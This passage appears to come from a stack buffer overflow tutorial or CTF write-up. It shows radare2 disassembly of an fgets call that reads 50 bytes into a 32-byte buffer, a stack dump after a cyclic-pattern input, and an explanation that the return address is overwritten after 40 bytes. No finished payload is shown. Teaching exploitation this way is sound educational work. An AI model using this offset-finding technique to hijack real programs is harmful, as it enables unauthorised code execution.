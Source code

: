 ```shell
|           0x004006c4      55             push rbp
|           0x004006c5      4889e5         mov rbp, rsp
|           0x004006c8      4883ec20       sub rsp, 0x20
|           0x004006cc      488b157d0920.  mov rdx, qword [obj.stdin]  ; obj.stdin__GLIBC_2.2.5
|                                                                      ; [0x601050:8]=0x7f608214aa00
|           0x004006d3      488d45e0       lea rax, qword [var_20h]
|           0x004006d7      be32000000     mov esi, 0x32               ; '2' ; 50
|           0x004006dc      4889c7         mov rdi, rax
|           0x004006df      e83cfeffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
|           0x004006e4      90             nop
|           0x004006e5      c9             leave
\           0x004006e6      c3             ret
[0x004006c4]> dcu 0x004006e6
Continue until 0x004006e6 using 1 bpsize
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaam
hit breakpoint at: 4006e6
[0x004006c4]> px @ rsp
- offset -       0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x7ffcb560c228  6b61 6161 6c61 6161 6d00 4000 0000 0000  kaaalaaam.@.....
0x7ffcb560c238  bb7b fb81 607f 0000 0000 0000 0000 0000  .{..`...........
0x7ffcb560c248  18c3 60b5 fc7f 0000 0000 0400 0100 0000  ..`.............
0x7ffcb560c258  e706 4000 0000 0000 0000 0000 0000 0000  ..@.............
0x7ffcb560c268  a76e ca29 1fdd ccd6 5005 4000 0000 0000  .n.)....P.@.....
0x7ffcb560c278  10c3 60b5 fc7f 0000 0000 0000 0000 0000  ..`.............
0x7ffcb560c288  0000 0000 0000 0000 a76e 6aa3 5eb7 3529  .........nj.^.5)
0x7ffcb560c298  a76e 0cd1 69de 0d28 0000 0000 0000 0000  .n..i..(........
0x7ffcb560c2a8  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x7ffcb560c2b8  28c3 60b5 fc7f 0000 9031 1982 607f 0000  (.`......1..`...
0x7ffcb560c2c8  b996 1782 607f 0000 0000 0000 0000 0000  ....`...........
0x7ffcb560c2d8  0000 0000 0000 0000 5005 4000 0000 0000  ........P.@.....
0x7ffcb560c2e8  10c3 60b5 fc7f 0000 0000 0000 0000 0000  ..`.............
0x7ffcb560c2f8  7a05 4000 0000 0000 08c3 60b5 fc7f 0000  z.@.......`.....
0x7ffcb560c308  1c00 0000 0000 0000 0100 0000 0000 0000  ................
0x7ffcb560c318  59ce 60b5 fc7f 0000 0000 0000 0000 0000  Y.`.............
```

Great! We are indeed the one the who lead the program to a memory access violation.
How ?
We've set a breakpoint just before the **ret** instruction and the last 8 bytes data on the stack are our input.
As we all know ***ret*** control ***rip***. The ret instruction is basically how you write ```pop rip```.<br>
So we have control over the program's instruction pointer after the first 40 bytes.

Notes:
> - buffer size = 32 bytes
> - rbp size = 8 bytes
> - rip, which is just after rbp in this case, size = 8 bytes
>
> With 48 bytes we can control the program's execution flow.
> Which is perfect because fgets allows us to write up to 50 characters.
